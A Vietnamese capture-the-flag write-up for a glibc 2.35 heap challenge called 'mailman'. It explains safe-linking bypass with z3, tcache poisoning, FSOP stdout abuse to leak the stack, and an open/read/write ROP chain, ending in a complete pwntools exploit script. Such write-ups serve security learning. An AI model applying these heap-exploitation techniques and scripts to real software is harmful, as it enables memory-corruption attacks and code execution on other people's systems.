







# mailman
- Được hướng dẫn bởi a Phú và a Quý
## Một số điều cần lưu ý ở libc 2.35
- Các chunk được malloc phải thoả điều kiện `chunk & 0xf = 0`, ví dụ 0x1230 0x23a0 thì thoả, 0x1231 không thoả
- Khi free vào tcache có một lớp bảo vệ fd pointer
```
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```
- Ví dụ `tcache: chunk2 <- chunk1` ở fd pointer 2 sẽ là `(địa chỉ chunk 1) >> 12 ^ (địa chỉ chunk 2)`
- Thì để bypass được lớp bảo vệ này để leak heap thì có khá nhiều cách nhưng có 2 cách thường thấy nhất
- Cách 1 là việc ta đưa 1 chunk vào tcache mà ở đó chunk đó là chunk đầu tiên của danh sách, khi này không có chunk trước đó.`0 >> 12 ^ chunk đầu tiên = chunk đầu tiên`
- Cách 2 là khi ta không thể free một chunk vào đầu danh sách tcache khi này ta dùng z3 để tính
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()
```
- [FSOP](https://hackmd.io/@-igYKgCkR_aGfvddJjS3QA/r1W3T5aIh#2-FSOP)
- [WU-FSOP](https://ctftime.org/writeup/34812)

- Để leak được stack ta có một biến `environ trong libc`
- Để leak libc thì ta leak fd pointer của một chunk trong unsorted bin

## Khai thác
### Chuẩn bị
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()

def write(idx, size, context):
        sla(b"> ", b"1")
        sla(b": ", str(idx).encode())
        sla(b": ", str(size).encode())
        sla(b": ", context)
def free(idx):
        sla(b"> ", b"2")
        sla(b": ", str(idx).encode())
def show(idx):
        sla(b"> ", b"3")
        sla(b": ", str(idx).encode())
        value = u64(p.recvline(keepends = False).ljust(8, b"\0"))
```

### Leak heap, leak libc
- Cách làm như ở trên trình bày (mình chọn cách 2)

```python
write(0, 0x20, "e"*8)
write(1, 0x20, "1"*8)
free(0)
free(1)
heap_leak = show(1)
heap_leak = unsafe_link(heap_leak)
info("heap leak: " + hex(heap_leak))
```

- Leak libc
```python
# Leak libc
write(0, 0x500-0x10, "a")
write(10, 0x100+0xa0, "a")
free(0)
libc_leak = show(0)
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x219ce0
info("libc base: " + hex(libc.address))
```

### Consolidation (gộp)
- Tính năng này gộp các chunk liền kề với nhau đã free (không áp dụng cho tcache, fastbin)
- Bằng tính năng trên và việc chương trình không xoá con trỏ sau khi free, ta có ý tưởng sau
```
0x123400 (size 0x100)
0x123500 (size 0x100)
```
- Khi ta free 2 chunk vào unsorted bin và malloc một chunk 0x200
```
0x123400 (con trỏ)
0x123500 (con trỏ)
0x123400 (0x200)
```
- Nghĩa là có thể UAF chunk `0x123500`
- Đầu tiên ta làm full chunk tcache, sau đó tạo 3 chunk 7 8 9 và một size lớn 0x500 và một chunk khác đệm ở dưới tránh việc free chunk 0x500 nó bị gộp với top chunk
```python
for i in range(0,8):
        write(i, 0x100-0x10, b"a") # full tcache
write(7, 0x100-0x10, "a")
write(8, 0x100-0x10, "a")
write(9, 0x100-0x10, "a")
write(10, 0x500-0x10, "a")
write(11, 0x100+0xa0, "a")
for i in range(0, 7):
        free(i)
```
- Do là khi chunk 7 8 9 10 cạnh nhau vào trong unsorted bin nên bị gộp với nhau
```python
free(7)
free(8)
free(9)
free(10)
```



## Fake chunk
```python
payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
write(0, 0x300-0x10,payload)
```
- Ta sẽ dùng chunk 9 để fake, thay đổi size 
- Mình malloc bớt chunk ra khỏi tcache, mục đích là mình tận dụng count của 0x100
- Nếu một size khác thì mình cần malloc 2 3 chunk và free chúng đi để biến count của size đó tăng lên, lúc lấy ra mới lấy được 2 chunk ra
- Nếu không malloc 2 3 chunk đệm thì lúc này count của bằng 1 và ta cần 2 lần malloc mới lấy được chunk fake ra
```python
for i in range(3):
    write(0xa,0x100-8,b"A")
free(9)
free(0)
```


- Đã có chunk 9 ở trong tcache
- Tiếp tục fake fd pointer chunk 9
```python
payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
payload+= p64((libc.sym['_IO_2_1_stdout_']-0x10) ^ (heap_leak+0xa10) >> 12)
write(0, 0x300-0x10,payload)
```
- Do cơ chế bảo vệ ở trên mình nói nên ta có dòng thứ 3

- Bây giờ ta sẽ set up để leak stack
```python
info("stdout: " + hex(libc.sym._IO_2_1_stdout_))
write(1, 0x100-0x10, "a")
payload=flat(
    0,libc.sym['_IO_file_jumps'],
    0xfbad1800 , #flag
    0xfbad1800 ,0xfbad1800 ,0xfbad1800 , #read_ptr, end, base
    libc.sym['environ'],libc.sym['environ']+8, #write base, ptr
    p64(libc.sym['_IO_2_1_stdout_'] +131)*2,p64(libc.sym['_IO_2_1_stdout_']+132),
)
write(2, 0x100-0x10, payload)
stack = u64(p.recv(8))
info("Stack: " + hex(stack))
target=stack-0x168
log.info('[+]target:'+hex(target))
```
- Mục tiêu ta target là hàm fgets() khi nó return ta sẽ ROPchain


### Fake chunk 2
```python
for i in range(5, 7):
    write(i, 0x280-0x8, b"a")
for i in range(5, 7):
    free(i)
free(0)
free(9)
payload = b"".ljust(0x200-0x10)
payload += flat(0, 0x281)
write(0, 0x300-0x8, payload) 

free(9)
free(0)

payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x281)
payload+= p64((target-0x20) ^ (heap_leak+0x810) >> 12)
write(0, 0x300-0x10,payload)
```
- Tiếp tục fake chunk tương tự lần 1, hơi khác một xíu là gef không hiện tcache =(
- Tại sao có `target-0x20` là khi dừng ở fgets() là do khi debug mình thấy fgets ret ở 0x..68, nên ban đầu mình target 0x..60 như báo lỗi, rồi mình dời xuống 0x60 - 0x20 thì oke


### ROP
- Có thể thay các lệnh ret bằng các địa chỉ stack ở hình để tránh lỗi chương trình, còn các địa chỉ elf do không libc exe được nên mình ghi tạm bằng lệnh ret
- Mình tạo một chunk chứa path của flag để open và ghi ra màn hình

```python
poprdi=libc.address+0x000000000002a3e5
poprax=libc.address+0x0000000000045eb0
poprsi=libc.address+0x000000000002be51
poprdx=libc.address+0x000000000011f497
syscall=libc.address+0x0000000000091396
ret=libc.address+0x0000000000029cd6


write(1, 0x280-0x10, b"flag.txt\0")
payload = flat(ret, ret, ret, ret, ret, ret)
payload+= flat(
    poprdi, heap_leak + 0xa10,
    poprdx, 0x0, 0,
    poprsi, 0,
    poprax, 2,
    syscall,
    
    poprax, 0,
    poprdi, 3,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall,
    
    poprax, 1,
    poprdi, 1,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall
)
write(1, 0x280-0x10, payload)
```
## Kết quả

```python
#!/usr/bin/python3
from z3 import *
from pwn import *

exe = ELF('vuln_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                 b*fgets+135

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()

def write(idx, size, context):
        sla(b"> ", b"1")
        sla(b": ", str(idx).encode())
        sla(b": ", str(size).encode())
        sla(b": ", context)
def free(idx):
        sla(b"> ", b"2")
        sla(b": ", str(idx).encode())
def show(idx):
        sla(b"> ", b"3")
        sla(b": ", str(idx).encode())
        value = u64(p.recvline(keepends = False).ljust(8, b"\0"))
        return value
# Leak heap
write(0, 0x20, "e"*8)
write(1, 0x20, "1"*8)
free(0)
free(1)
heap_leak = show(1)
heap_leak = unsafe_link(heap_leak)
info("heap leak: " + hex(heap_leak))
# Leak libc
write(0, 0x500-0x10, "a")
write(10, 0x100+0xa0, "a")
free(0)
libc_leak = show(0)
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x219ce0
info("libc base: " + hex(libc.address))

# # tcache
# fill tcache, merge chunk 7 8 9
for i in range(0,8):
        write(i, 0x100-0x10, b"a")
write(7, 0x100-0x10, "a")
write(8, 0x100-0x10, "a")
write(9, 0x100-0x10, "a")
write(10, 0x500-0x10, "a")
write(11, 0x100+0xa0, "a")
for i in range(0, 7):
        free(i)

free(7)
free(8)
free(9)
free(10)

# ow size chunk 9
payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
write(0, 0x300-0x10,payload)
for i in range(3):
    write(0xa,0x100-8,b"A")
free(9)
free(0)

payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
payload+= p64((libc.sym['_IO_2_1_stdout_']-0x10) ^ (heap_leak+0xa10) >> 12)
write(0, 0x300-0x10,payload)
info("stdout: " + hex(libc.sym._IO_2_1_stdout_))
write(1, 0x100-0x10, "a")
payload=flat(
    0,libc.sym['_IO_file_jumps'],
    0xfbad1800 ,0xfbad1800 ,0xfbad1800 ,0xfbad1800 ,
    libc.sym['environ'],libc.sym['environ']+8,p64(libc.sym['_IO_2_1_stdout_']+131)*2,p64(libc.sym['_IO_2_1_stdout_']+132),
)

write(2, 0x100-0x10, payload)
stack = u64(p.recv(8))
info("Stack: " + hex(stack))
target=stack-0x168
log.info('[+]target:'+hex(target))

for i in range(5, 7):
    write(i, 0x280-0x8, b"a")
for i in range(5, 7):
    free(i)
free(0)
free(9)
payload = b"".ljust(0x200-0x10)
payload += flat(0, 0x281)
write(0, 0x300-0x8, payload) 

free(9)
free(0)

payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x281)
payload+= p64((target-0x20) ^ (heap_leak+0x810) >> 12)
write(0, 0x300-0x10,payload)

poprdi=libc.address+0x000000000002a3e5
poprax=libc.address+0x0000000000045eb0
poprsi=libc.address+0x000000000002be51
poprdx=libc.address+0x000000000011f497
syscall=libc.address+0x0000000000091396
ret=libc.address+0x0000000000029cd6


write(1, 0x280-0x10, b"flag.txt\0")
payload = flat(ret, ret, ret, ret, ret, ret)
payload+= flat(
    poprdi, heap_leak + 0xa10,
    poprdx, 0x0, 0,
    poprsi, 0,
    poprax, 2,
    syscall,
    
    poprax, 0,
    poprdi, 3,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall,
    
    poprax, 1,
    poprdi, 1,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall
)
write(1, 0x280-0x10, payload)
p.interactive()

```